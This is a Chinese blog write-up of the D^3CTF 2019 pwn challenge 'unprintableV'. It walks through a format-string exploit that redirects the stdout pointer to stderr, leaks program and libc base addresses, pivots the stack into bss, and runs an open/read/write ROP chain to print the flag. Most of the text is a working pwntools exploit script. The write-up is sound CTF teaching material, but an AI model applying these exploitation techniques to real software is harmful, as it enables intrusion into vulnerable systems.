










<!--yml
category: 未分类
date: 2022-04-26 14:35:39
-->

# 2019 D^3CTF unprintableV详细题解_ha1vk的博客-CSDN博客

> 来源：[https://blog.csdn.net/seaaseesa/article/details/103323810](https://blog.csdn.net/seaaseesa/article/details/103323810)

# unprintableV

这是2019 d3ctf的一道pwn题，由于当时知识储备不够没做出来，赛后就好好研究，从中学到了新的知识

本题用到的知识有:ROP、stdout指针与stderr指针、**栈迁移**、格式化字符串漏洞

首先，我们检查一下程序的保护机制

除了canary，其它的保护都开了

然后，我们用IDA分析一下

这个沙箱函数，把execve函数给禁用了，所以，我们不能getshell，但是我们可以**构造****ROP****链来把flag****读取后再打印出来**

这是一个及其简单的程序，但是它的exp脚本会复杂的让你疯狂

程序一开始给了我们a的地址，也就是menu的ebp-0x8的值，接着**close(1)****把文件描述符1****标准输出给关了，那么之后如果调用输出函数，将不能输出出来。**

然后，我们看看vuln函数，存在一个很明显的**格式化字符串漏洞，但是由于这里字符串是存储在****bss****段的buf****里，导致这个格式化字符串漏洞不是那么容易利用。 **

如果我们想实现任意地址写，还得先在栈上特殊构造一下。

但是，由于**标准输出被关闭了，导致信息泄露不出来。4**

但或许有什么办法可以解决，我们来看看printf的源代码

1.  /* Write formatted output to stdout from the format string FORMAT.  */  
2.  /* VARARGS1 */  
3.  **int**  
4.  __printf (**const** **char** *format, ...)  
5.  {  
6.  **va_list** arg;  
7.  **int** done;  

9.  va_start (arg, format);  
10.  done = vfprintf (**stdout**, format, arg);  
11.  va_end (arg);  

13.  **return** done;  
14.  }  

printf实际是调用fprintf，并且传入了stdout指针，我们来看看stdout指针是如何定义的

1.  #include "libioP.h"  
2.  #include "stdio.h"  

4.  #undef stdin  
5.  #undef stdout  
6.  #undef stderr  
7.  _IO_FILE *stdin = (**FILE** *) &_IO_2_1_stdin_;  
8.  _IO_FILE *stdout = (**FILE** *) &_IO_2_1_stdout_;  
9.  _IO_FILE *stderr = (**FILE** *) &_IO_2_1_stderr_;  

11.  #undef _IO_stdin  
12.  #undef _IO_stdout  
13.  #undef _IO_stderr  
14.  #define AL(name) AL2 (name, _IO_##name)  
15.  #define AL2(name, al) \  
16.  **extern** __typeof (name) al __attribute__ ((alias (#name),                    \  
17.  visibility ("hidden")))  
18.  AL(stdin);  
19.  AL(stdout);  
20.  AL(stderr);  

而stdout、stdin、stderr这些是全局指针，因此，它们肯定存在于内存中的某个地方,bss段，我们要是能把stdout指针指向_IO_2_1_stderr_，那么就能输出了，_IO_2_1_stderr_内部使用的文件描述符是2，而_IO_2_1_stdout_内部使用的文件描述符是1，它们在正常情况下，都向终端屏幕输出，因此，我们希望吧stdout指针指向_IO_2_1_stderr_，我们在程序的bss段看到了这三个指针

这三个指针是程序在运行时装载上去的，就犹如GOT表的装载一样，然后**程序中只要用到这三个指针，都是从这里访问获取指针的值**

下方不远处是buf

由于程序告诉了我们buf的地址，那么通过低字节覆盖，我们也能得到stderr、stdin、stdout这三个指针自己的地址。

那么，**我们该如何确定格式化字符串里参数在栈中的位置，比如****%6$p****这些？**

***我们可以在本地先把close(1)******给nop******掉，再利用%p-%p-%p-%p-%p-%p-%p-%p-%p-%p…******来确定。最后测试时，重新拿原文件来测试***

假如，我们通过格式化字符串漏洞把这个数据低字节修改，使得它**成为****stdout****指针的地址**，那么我们就能利用printf把stdout指针的内容改变，指向_IO_2_1_stderr_。但是，我们该如何来低字节修改这个数据呢？我们可以再借助这两个

我们可以**先往****0x7FFF7543E1D0****里低字节覆盖，使得0x7FFF7543E1D0****里的数据为0x7FFF7543E1C8**，即buf指针a的地址

**然后，我们就能利用%t$hhn****来对0x7FFF7543E1C8****地址处写入了，我们先把a****指向stdout**

1.  sh.recvuntil('0x')  
2.  #获得a指针的地址  
3.  stack = int(sh.recvuntil('\n',drop=True),16)  
4.  **print** hex(stack)  

6.  payload = '%' + str(stack & 0xFF) + 'c%6$hhn'  
7.  sh.recvuntil('may you enjoy my printf test!\n')  
8.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
9.  #注意，休眠是必要的  
10.  **time.sleep(0.5)**
11.  payload = '%' + str(**stdout_bss & 0xFF**) + 'c%10$hhn'  
12.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  

由于没有任何操作成功的提示，我们需要休眠一下，再继续发送数据

现在，我们看看栈里的布局，（**我们重新运行了程序，所以和前面的图有些不一样**）

a指针成功指向了stdout指针，那么现在stdout指针的地址也在栈里了，我们就能继续利用printf，修改stdout指针的值了，我们只需低2个字节覆盖即可

1.  #注意，休眠是必要的  
2.  time.sleep(0.5)  
3.  payload = '%' + str(**_IO_2_1_stderr_ & 0xFFF**) + 'c%9$hn'  
4.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  

我们之所以写**_IO_2_1_stderr_ & 0xFFF** 而不写_IO_2_1_stderr_ & 0xFFFF的原因是，**经过调试，发现****_IO_2_1_stderr_ & 0xFFFF****，printf****执行后没有成功修改数据，可能是因为数据太大的原因**，注意，**我们对****stdout****指针的修改必须一次完成，因为，如果我们分开的话，由于stdout****指针修改了，所以在没完成全部修改之前，stdout****就指向了其他地方，不是FILE****结构体，导致printf****执行错误崩溃**

我们通过_IO_2_1_stderr_ & 0xFFF和%9$hn，最终导致**stdout****指针的值的倒数第四个十六进制数为0**，由于PIE的存在，我们有**1/16****的可能**，使得stdout指针正好指向_IO_2_1_stderr_结构体

如上图，这次，我们没有成功让stdout指向_IO_2_1_stderr_，但是，只要我们不断的爆破，总有一次会成功，然后printf就可以正常输出了。

我们利用这种方式检验是否成功指向_IO_2_1_stderr_

1.  #休眠是必要的  
2.  time.sleep(0.2)  
3.  sh.sendline('aaaaaaa'.ljust(0x12C-1,'\x00'))  

5.  x = sh.recvuntil('aa',**timeout=0.5**)  
6.  **if** 'aa' **not** **in** x:  
7.  **raise** Exception('retry')  

假设我们已经成功将stdout指针指向了_IO_2_1_stderr_结构体，接下来，我们就要来泄露信息了

泄露这些信息，分别计算程序基址和libc基址，以及其他一些gadget和函数的地址

1.  #泄露main+0x2D的地址  
2.  payload = '%11$p%15$pTAG'  
3.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
4.  sh.recvuntil('0x')  
5.  main_addr = int(sh.recvuntil('0x',drop=True),16) - 0x2D  
6.  elf_base = main_addr - main_s  
7.  pop_rsi_addr = pop_rsi + elf_base  
8.  pop_rdi_addr = pop_rdi + elf_base  
9.  buf_addr = buf_s + elf_base  
10.  leave_addr = leave + elf_base  
11.  #泄露__libc_start_main+E7的地址  
12.  __libc_start_main_addr = int(sh.recvuntil('TAG',drop=True),16) - 0xE7  
13.  libc_base = __libc_start_main_addr - __libc_start_main  
14.  open_addr = libc_base + open_s  
15.  read_addr = libc_base + read_s  
16.  write_addr = libc_base + write_s  
17.  pop_rdx_addr = libc_base + pop_rdx  
18.  **print** 'elf_base=',hex(elf_base)  
19.  **print** 'libc_base=',hex(libc_base)  

以上的一些地址，我们在构造rop链实现如下代码，需要用到的

1.  fd = open("flag",0);  
2.  read(fd,buf+0x100,0x30);  
3.  write(2,buf+0x100,0x30);  

如果全都用printf格式化漏洞来对栈里面写ROP链，那么会比较麻烦，因此，我们决定把ROP链放入bss段的buf里面，然后修改ebp，将栈转移到buf里去

那么，我们该如何做**栈转移**呢？

如图，我们通过%6$hhn来将10的位置的数据低字节覆盖，使得10的数据为12的地址，然后我们就可以通过%10$hhn来依次修改12的数据，当我们需要修改12的前一个字节时，只需再通过%6$hhn来改变10的数据，然后用%10$hhn来继续对12的前一个字节写。

1.  **def** write_i(sh,stack,index,addr):  
2.  i = 0  
3.  **while** addr > 0:  
4.  sh.recvuntil('TAG')  
5.  #设定栈顶向下第10个数据为stack+0x8*index  
6.  payload = '%' + str((stack + 0x8*index + i) & 0xFF) + 'c%**6**$hhnTAG'  
7.  sh.sendline(payload)  
8.  sh.recvuntil('TAG')  
9.  data = addr & 0xFF  
10.  payload = '%' + str(data) + 'c%**10**$hhnTAG'  
11.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
12.  addr = addr >> 8  
13.  i+=1  

然后，我们这样调用

1.  #我们修改main的rbp，做栈迁移  
2.  write_i(sh,stack,3,buf_addr)  
3.  #这次，我们写main的返回地址，也就是main ebp后面那个空间  
4.  write_i(sh,stack,4,leave_addr)  

其中leave_addr地址处是指令leave;retn，而leave指令相当于

1.  mov rsp,rbp  
2.  pop rbp  

这样，当main函数执行到leave时，有

那么，ebp的值变成了我们的buf地址，但是esp还没有指向buf，于是，我们就在接下来的返回地址覆盖为leave_addr,让它再执行一次leave，那么有

现在，**rsp****指向了buf**,但是rbp变成buf[0]的数据，这没什么问题，因为，做栈迁移，我们只需保证rsp指向了指定位置即可，由于pop rbp，rsp要加8，也就是说，这里执行后，**rsp****指向了buf+8****处**，retn就会从buf+8处取出一个数据当成地址，跳到那个地址处去执行，因此，**我们只需在****buf+8****处写ROP****链即可**。

为了能够正常到达main的栈中rbp数据处，**我们需要复原****menu****在栈中的rbp****数据**

1.  #我们需要复原menu的rbp  
2.  payload = '%' + str((stack + 0x18) & 0xFF) + 'c%6$hhnTAG'  
3.  sh.sendline(payload)  

构造ROP时，有些gadget可能在程序二进制文件里没有，我们可以去libc.so.6中找找。只需利用ROPgadget工具即可

ROPgadget --binary libc.so.6  --only 'pop|ret' | grep 'rdx'

然后，我们就开始构造ROP链了

1.  #现在当退出main时，栈就会转移到buf里去  
2.  rop = 'd^3CTF'.ljust(8,'\x00')  
3.  #rsi = 0  
4.  rop += p64(pop_rsi_addr) + p64(0) + p64(0)  
5.  #rdi = 'flag'，我们把flag字符串存到buf+0xC8处  
6.  rop += p64(pop_rdi_addr) + p64(buf_addr + 0xC8)  
7.  #open  
8.  rop += p64(open_addr)  
9.  #rdx = 0x30  
10.  rop += p64(pop_rdx_addr) + p64(0x30)  
11.  #rdi = buf + 0x100,我们把读取的结果存在buf+0x100处  
12.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
13.  #fd = 1,文件描述符1是现在对应打开的flag文件  
14.  rop += p64(pop_rdi_addr) + p64(1)  
15.  #read  
16.  rop += p64(read_addr)  
17.  #rdx = 0x30  
18.  rop += p64(pop_rdx_addr) + p64(0x30)  
19.  #rdi = buf + 0x100  
20.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
21.  #fd = 2,文件描述符2是stderr  
22.  rop += p64(pop_rdi_addr) + p64(2)  
23.  #write  
24.  rop += p64(write_addr)  
25.  rop = rop.ljust(0xC8,'\x00')  
26.  #存入flag字符串  
27.  rop += 'flag\x00'  
28.  rop = rop.ljust(0x12C-1,'\x00')  

30.  sh.sendline(rop)  

我们在**开头写入了****d^3CTF\x00**，使得经过printf后，程序检测到d^3CTF，就直接退出main，就能执行我们的ROP链了，这样一次性搞定

需要注意的是文件描述符1对应了我们打开的flag文件，因为之前close(1)，所以当我们open时，1就会被利用起来。也可以具体调试一下，得到文件描述符。

综上，我们的exp脚本

1.  #coding:utf8  
2.  **from** pwn **import** *  
3.  **import** time  

5.  elf = ELF('./unprintableV')  
6.  libc = ELF('./libc.so.6')  
7.  stdout_bss = elf.symbols['stdout']  
8.  _IO_2_1_stderr_ = libc.symbols['_IO_2_1_stderr_']  
9.  __libc_start_main = libc.sym['__libc_start_main']  
10.  main_s = elf.symbols['main']  
11.  buf_s = elf.symbols['buf']  
12.  open_s = libc.sym['open']  
13.  read_s = libc.sym['read']  
14.  write_s = libc.sym['write']  
15.  #pop rsi  
16.  #pop r15  
17.  #retn  
18.  pop_rsi = 0xBC1  
19.  #pop rdi  
20.  #retn  
21.  pop_rdi = 0xBC3  
22.  #leave  
23.  #retn  
24.  leave = 0xB56  
25.  #libc.so.6中  
26.  #pop rdx ;ret  
27.  pop_rdx = 0x1b96  

29.  **def** write_i(sh,stack,index,addr):  
30.  i = 0  
31.  **while** addr > 0:  
32.  #sh.recvuntil('TAG')  
33.  #设定栈顶向下第10个数据为stack+0x8*index  
34.  payload = '%' + str((stack + 0x8*index + i) & 0xFF) + 'c%6$hhnTAG'  
35.  sh.sendline(payload)  
36.  sh.recvuntil('TAG')  
37.  data = addr & 0xFF  
38.  payload = '%' + str(data) + 'c%10$hhnTAG'  
39.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
40.  sh.recvuntil('TAG')  
41.  addr = addr >> 8  
42.  i+=1  

44.  **def** crack(sh):  
45.  sh.recvuntil('0x')  
46.  #获得a指针的地址  
47.  stack = int(sh.recvuntil('\n',drop=True),16)  
48.  **print** hex(stack)  

50.  payload = '%' + str(stack & 0xFF) + 'c%6$hhn'  
51.  sh.recvuntil('may you enjoy my printf test!\n')  
52.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
53.  #注意，休眠是必要的  
54.  time.sleep(0.5)  
55.  payload = '%' + str(stdout_bss & 0xFF) + 'c%10$hhn'  
56.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
57.  #注意，休眠是必要的  
58.  time.sleep(0.5)  
59.  payload = '%' + str(_IO_2_1_stderr_ & 0xFFF) + 'c%9$hn'  
60.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
61.  #休眠是必要的  
62.  time.sleep(0.2)  
63.  sh.sendline('aaaaaaa'.ljust(0x12C-1,'\x00'))  

65.  x = sh.recvuntil('aa',timeout=0.5)  
66.  **if** 'aa' **not** **in** x:  
67.  **raise** Exception('retry')  
68.  #泄露main+0x2D的地址  
69.  payload = '%11$p%15$pTAG'  
70.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
71.  sh.recvuntil('0x')  
72.  main_addr = int(sh.recvuntil('0x',drop=True),16) - 0x2D  
73.  elf_base = main_addr - main_s  
74.  pop_rsi_addr = pop_rsi + elf_base  
75.  pop_rdi_addr = pop_rdi + elf_base  
76.  buf_addr = buf_s + elf_base  
77.  leave_addr = leave + elf_base  
78.  #泄露__libc_start_main+E7的地址  
79.  __libc_start_main_addr = int(sh.recvuntil('TAG',drop=True),16) - 0xE7  
80.  libc_base = __libc_start_main_addr - __libc_start_main  
81.  open_addr = libc_base + open_s  
82.  read_addr = libc_base + read_s  
83.  write_addr = libc_base + write_s  
84.  pop_rdx_addr = libc_base + pop_rdx  
85.  **print** 'elf_base=',hex(elf_base)  
86.  **print** 'libc_base=',hex(libc_base)  

88.  #我们修改main的rbp，做栈迁移  
89.  write_i(sh,stack,3,buf_addr)  
90.  #这次，我们写main的返回地址，也就是main ebp后面那个空间  
91.  write_i(sh,stack,4,leave_addr)  

93.  #我们需要复原menu的rbp  
94.  payload = '%' + str((stack + 0x18) & 0xFF) + 'c%6$hhnTAG'  
95.  sh.sendline(payload)  

97.  #现在当退出main时，栈就会转移到buf里去  
98.  rop = 'd^3CTF'.ljust(8,'\x00')  
99.  #rsi = 0  
100.  rop += p64(pop_rsi_addr) + p64(0) + p64(0)  
101.  #rdi = 'flag'，我们把flag字符串存到buf+0xC8处  
102.  rop += p64(pop_rdi_addr) + p64(buf_addr + 0xC8)  
103.  #open  
104.  rop += p64(open_addr)  
105.  #rdx = 0x30  
106.  rop += p64(pop_rdx_addr) + p64(0x30)  
107.  #rdi = buf + 0x100,我们把读取的结果存在buf+0x100处  
108.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
109.  #fd = 1,文件描述符1是现在对应打开的flag文件  
110.  rop += p64(pop_rdi_addr) + p64(1)  
111.  #read  
112.  rop += p64(read_addr)  
113.  #rdx = 0x30  
114.  rop += p64(pop_rdx_addr) + p64(0x30)  
115.  #rdi = buf + 0x100  
116.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
117.  #fd = 2,文件描述符2是stderr  
118.  rop += p64(pop_rdi_addr) + p64(2)  
119.  #write  
120.  rop += p64(write_addr)  
121.  rop = rop.ljust(0xC8,'\x00')  
122.  #存入flag字符串  
123.  rop += 'flag\x00'  
124.  rop = rop.ljust(0x12C-1,'\x00')  

126.  sh.sendline(rop)  

128.  sh.interactive()  

130.  **while** True:  
131.  **try**:  
132.  sh = process('./unprintableV',env={"LD_PRELOAD":"./libc.so.6"})  
133.  crack(sh)  
134.  **except** BaseException as e:  
135.  **print** e  
136.  sh.kill()  
137.  **print** 'retrying...'